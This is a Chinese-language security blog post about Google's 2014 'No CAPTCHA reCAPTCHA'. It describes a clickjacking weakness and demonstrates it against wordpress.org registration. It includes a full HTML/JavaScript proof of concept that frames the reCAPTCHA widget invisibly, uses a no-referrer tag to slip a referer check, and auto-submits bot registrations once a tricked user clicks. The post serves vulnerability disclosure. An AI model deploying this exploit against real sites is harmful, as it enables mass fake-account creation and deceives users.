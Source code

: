 ```yaml
---
layout: post
title: The security risk of "Google reCAPTCHA"
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### reCAPTCHA ([Index](http://www.google.com/recaptcha/intro/))

> Google在2014.12.03发表了一篇文章 《[Are you a robot? Introducing “No CAPTCHA reCAPTCHA”](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)》

文章开始讲述传统验证码的方式令“真正人类”头疼，且研究表明现在的人工智能技术已经能够解决99.8%的验证码，因此扭曲的文本验证方式可能不在是一个可靠的方法。

![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/gg_old_captcha.jpg)

- 头疼的验证码输入
- 不可靠的文字验证码

所以不少的社区论坛使用人工识别图片选择文字答案作为验证码的方式来代替传统的验证码。

随后Google推出了**```reCAPTCHA```**项目。

![demo](http://1.hackersoul.sinaapp.com/img/media/Recaptcha_anchorxxxxxx2x.gif)

    reCAPTCHA被gg称作没有验证码的验证码（"No CAPTCHA reCAPTCHA"），
    他让用户只需要简单的勾选就可以确认你是真实用户而非恶意机器人，操作非常简单。

#### 非单一验证
Vinay Shet或者reCAPTCHA团队也考虑到这种判断方法可能会存在误报情况，所以将验证方式进行了稳固。

 1. 传统验证码并未消失，还是会有提示输入传统验证码的方法来检测：
 ![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/CAPTCHA_dsahkdhkusa213dsza7i21n.png)
 
 2. 展示一张图片，让用户选择他们下面提供的图片中哪张是符合图片的：
 ![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/turkey_captcha2.png)
 3. 好人/坏人的判断算法
 

reCAPTCHA并未详细的说明这个新的验证码API算法的具体情况，但其中好人坏人的判断方式应该最为复杂，或基于session/cookie？

> As more websites adopt the new API, more people will see "No CAPTCHA reCAPTCHAs".  Early adopters, like Snapchat, WordPress, Humble Bundle, and several others are already seeing great results with this new API. For example, in the last week, more than 60% of WordPress’ traffic and more than 80% of Humble Bundle’s traffic on reCAPTCHA encountered the No CAPTCHA experience—users got to these sites faster. To adopt the new reCAPTCHA for your website, visit our site to learn more.

文章的最后说越来越多的网站开始使用这个新的API，例如：Snapchat, WordPress, Humble Bundle等等，也推荐大家开始使用这个reCAPTCHA项目。

#### ClickJacking

当我看完这篇文章时非常激动，因为我们再也不需要为复杂或恶心的验证码所头疼了，但之后我发现reCAPTCHA可能存在ClickJacking这种攻击类型的安全隐患，其中我们以Wordpress官方站点为例。

 - [Wordpress官方站点注册用户](https://wordpress.org/support/register.php)

其中仅仅是帐号以及邮箱是必须的，然后勾选reCAPTCHA所提供的验证码即可完成注册。

 - [ClickJacking点击劫持攻击注册](http://1.hackersoul.sinaapp.com/payload/no_captcha_clickjacking.html)

![demo_1](http://1.hackersoul.sinaapp.com/img/media/69DFB6AC-8075-4F45-AA00-031E6F0F084E.png)

等待过后你将跳转到注册成功的页面：

![demo_2](http://1.hackersoul.sinaapp.com/img/media/1A61E266-8B1B-4BF1-813A-536B6FB09B7B.png)

{% highlight html %}
其中测试在古董浏览器上是无法正常进行的，另外需要提一下页面中需要添加
<meta name="referrer" content="never">
来绕过他禁止对第三方数据提供sitekey的防御。
{% endhighlight %}

> 需要注意的是，reCAPTCHA会在一段时间停滞不操作页面的情况下摧毁Session：
> 
![alert_session](http://1.hackersoul.sinaapp.com/img/media/AEAA2D26-2AA0-4AA4-9BF7-1E8071A06F53.png)

#### POC

{% highlight bash %}
<html>
    <head>
        <title>No_CAPTCHA ClickJacking demo</title>
        <meta name="referrer" content="never">
		<script type='text/javascript' src='https://www.google.com/recaptcha/api.js?ver=2'></script>
	</head>
    <body>
    <form method="post" action="https://wordpress.org/support/register.php">
    <div style="opacity:0.1" class="g-recaptcha" data-sitekey="6Ld6gcoSAAAAAEkCxPeS-_sqEokNIHwNCOtx17xo"></div>
    <input name="user_login" type="hidden" id="user_login" size="30" maxlength="30" value="" />
    <input name="user_email" id="user_email" type="hidden" value="" />
    </form>  
	半透明为了更好的展示，点击测试攻击。
    <script>
        function makeid()
        {
            var text = "";
            var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
        
            for( var i=0; i < 7; i++ )
                text += possible.charAt(Math.floor(Math.random() * possible.length));
        
            return text;
        }
        user_login.value='BOT-'+makeid();
        user_email.value='BOT-'+makeid()+'@gmail.com';
        
        check = setInterval(function(){
          v=document.getElementById('g-recaptcha-response').value
          if(v.length>0){
            alert('Thanks for helping my bot! Your token is '+v);
            document.forms[0].submit();
            clearInterval(check);
          }
        },400)
    </script>
    </body>
</html>
{% endhighlight %}

#### 最后

google reCAPTCHA引进了一个非常NICE的验证码方式，在未来也同样可能有着跨时代的意义，但引入新模式的同时终会出现不可预料的问题，也许很多，很多。
 
 * 部分文献参考
    - [http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)
    - [http://homakov.github.io/nocaptcha.html](http://homakov.github.io/nocaptcha.html)
    - [http://www.bbc.com/news/blogs-magazine-monitor-30326350](http://www.bbc.com/news/blogs-magazine-monitor-30326350)
